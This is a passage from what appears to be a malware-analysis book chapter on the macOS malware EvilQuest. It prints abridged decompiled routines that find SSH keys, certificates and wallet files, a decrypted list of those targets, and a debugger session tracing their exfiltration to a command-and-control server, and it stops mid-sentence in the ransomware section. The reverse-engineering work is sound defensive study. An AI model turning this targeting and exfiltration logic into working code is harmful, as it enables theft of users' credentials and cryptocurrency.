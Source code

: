 ```
d Cryptocurrency File Exfiltration    Once the infected system’s directory listing has been exfiltrated, EvilQuest once again invokes the `get_targets` function. Recall that, given a root directory such as */Users*, the `get_targets` function recursively generates a list of files. For each file encountered, the malware applies a callback function to check whether the file is of interest. In this case, `get_targets` is invoked with the `is_lfsc_target` callback:    ``` rax = get_targets(rax, &var_18, &var_1C, **is_lfsc_target**);  ```    In Listing 11-59’s abridged decompilation, note that the `is_lfsc_target` callback function invokes two helper functions, `lfsc_parse_template` and `is_lfsc_target`, to determine if a file is of interest:    ``` int is_lfsc_target(char* file) {       memcpy(&templates, 1 0x100013330, 0x98);     isTarget = 0x0;     length = strlen(file);     index = 0x0;     do {             if(isTarget) break;             if(index >= 0x13) break;              template = ei_str(templates+index*8);             parsedTemplate = lfsc_parse_template(template);             if(lfsc_match(parsedTemplate, file, length) == 0x1)              {                isTarget = 0x1;             }              index++;      } while (true);      return isTarget; } ```    Listing 11-59: Core logic of the `is_lfsc_target` function    From this decompilation, we can also see that the templates used to determine if a file is of interest are loaded from `0x100013330` 1. If we check this address, we find a list of encrypted strings, shown in Listing 11-60:    ``` 0x0000000100013330    dq   0x0000000100010a95 ; "2Y6ndF3HGBhV3OZ5wT2ya9se0000053", 0x0000000100013338    dq   0x0000000100010ab5 ; "3mkAT20Khcxt23iYti06y5Ay0000083" 0x0000000100013340    dq   0x0000000100010ad5 ; "3mTqdG3tFoV51KYxgy38orxy0000083" 0x0000000100013348    dq   0x0000000100010af5 ; "2Glxas1XPf4|11RXKJ3qj71m0000023" ... ```    Listing 11-60: Encrypted list of files of “interest”    Thanks to our injected decryptor library, we have the ability to decrypt this list (Listing 11-61):    ``` % **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib /Library/mixednkey/toolroomd** **... decrypted string (0x100010a95): *id_rsa*/i decrypted string (0x100010ab5): *.pem/i decrypted string (0x100010ad5): *.ppk/i decrypted string (0x100010af5): known_hosts/i decrypted string (0x100010b15): *.ca-bundle/i decrypted string (0x100010b35): *.crt/i decrypted string (0x100010b55): *.p7!/i decrypted string (0x100010b75): *.!er/i decrypted string (0x100010b95): *.pfx/i decrypted string (0x100010bb5): *.p12/i decrypted string (0x100010bd5): *key*.pdf/i decrypted string (0x100010bf5): *wallet*.pdf/i decrypted string (0x100010c15): *key*.png/i decrypted string (0x100010c35): *wallet*.png/i decrypted string (0x100010c55): *key*.jpg/i decrypted string (0x100010c75): *wallet*.jpg/i decrypted string (0x100010c95): *key*.jpeg/i decrypted string (0x100010cb5): *wallet*.jpeg/i ...** ```   **Listing 11-61: Decrypted list of files of “interest”    From the decrypted list, we can see that EvilQuest has a propensity for sensitive files, such as certificates and cryptocurrency wallets and keys!    Once the `get_targets` function returns a list of files that match these templates, the malware reads each file’s contents via a call to `lfsc_get_contents` and then exfiltrates the contents to the command and control server using the `ei_forensic_sendfile` function (Listing 11-62):    ``` get_targets("/Users", &targets, &count, is_lfsc_target);  for (index = 0x0; index < count; ++index) {        targetPath = targets[index];        lfsc_get_contents(targetPath, &targetContents, &targetContentSize);       ei_forensic_sendfile(targetContents, targetContentSize, ...);        ... ```    Listing 11-62: File exfiltration via the `ei_forensic_sendfile` function    We can confirm this logic in a debugger by creating a file on the desktop named *key.png* and setting a breakpoint on the call to `lfsc_get_contents` at `0x0000000100001965`. Once the breakpoint is hit, we print out the contents of the first argument (`RDI`) and see that, indeed, the malware is attempting to read and then exfiltrate the *key.png* file (Listing 11-63):    ``` # **lldb /Library/mixednkey/toolroomd** ...  (lldb) **b 0x0000000100001965** Breakpoint 1: where = toolroomd`toolroomd[0x0000000100001965], address = 0x0000000100001965  (lldb) **c**  * thread #4, stop reason = breakpoint 1.1 ->  0x100001965: callq  lfsc_get_contents  (lldb) **x/s $rdi** 0x1001a99b0: "/Users/user/Desktop/key.png" ```    Listing 11-63: Observing file exfiltration logic via the debugger    Now we know that if a user becomes infected with EvilQuest, they should assume that all of their certificates, wallets, and keys belong to the attackers.    ## File Encryption Logic    Recall that Dinesh Devadoss, the researcher who discovered EvilQuest, noted that the malware contained ransomware capabilities. Let’s continue our analysis efforts by focusing on this ransomware logic. You can find the relevant code from the main function, where the malware invokes a method named `s_is_high_time` and then waits on several timers to expire before kicking off the encryption logic, which begins in a function named `ei_carver_main` (Listing 11-64):    ``` if ( (s_is_high_time(var_80) != 0x0) &&       ( ( (ei_timer_check(var_70) == 0x1) &&           (ei_timer_check(var_130) == 0x1)) &&           (var_11C < 0x2))) {          ...          ei_carver_main(*var_10, &var_120); ```    Listing 11-64: Following timer checks, the `ei_carver_main` function is invoked.    Of particular note is the `s_is_high_time` function, which invokes the `time` API function and then compares the returned time epoch with the hardcoded value `0x5efa01f0`. This value resolves to Monday, June 29, 2020 15:00:00 GMT. If the date on an infected system is before this, the function will return a `0`, and the file encryption logic will no
```